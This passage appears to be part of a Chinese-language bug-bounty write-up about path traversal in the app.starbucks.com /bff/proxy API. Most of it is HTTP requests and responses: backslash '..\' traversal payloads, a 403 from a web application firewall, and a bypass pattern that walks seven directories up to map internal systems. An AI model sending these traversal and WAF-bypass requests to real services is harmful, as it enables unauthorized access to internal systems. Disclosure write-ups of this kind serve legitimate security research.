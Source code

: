幸運的是，**我嘗試的第一個測試返回了一個非常好的指標，表明我們可以遍歷 endpoint**：

```
GET /bff/proxy/stream/v1/users/me/streamItems/..\ HTTP/1.1
Host: app.starbucks.com
```

```
{
  "errors": [
    {
      "message": "Not Found",
      "errorCode": 404,
      ...

```


這個 JSON response 與 `/bff/proxy` 下的其他所有正常 API call 的 JSON response 相同
- 這表明，**我們打到了內部系統，並成功地修改了我們的對話路徑**

下一步是繪製內部系統圖
- **最好的方法是通過識別第一個返回 `400 bad request` 的路徑，向下追踪到根**

不幸的是，我遇到了一個小障礙。有個 `WAF` 不允許我深入到 two directories deep：
```
GET /bff/proxy/stream/v1/users/me/streamItems/..\..\ HTTP/1.1
Host: app.starbucks.com
```

```
HTTP/1.1 403 Forbidden
```

Luckily, `WAFs` are pretty terrible:

```
GET /bff/proxy/stream/v1/me/streamItems/web\..\.\..\ HTTP/1.1
Host: app.starbucks.com
```

```
{
  "errors": [
    {
      "message": "Not Found",
      "errorCode": 404,
      ...
```


最終，going 7 paths back 後，我收到了以下錯誤：
```
GET /bff/proxy/stream/v1/me/streamItems/web\..\.\..\.\..\.\..\.\..\.\..\.\..\ HTTP/1.1
Host: app.starbucks.com
```

```
{
  "errors": [
    {
      "message": "Bad Request",
      "errorCode": 400,
      ...

```
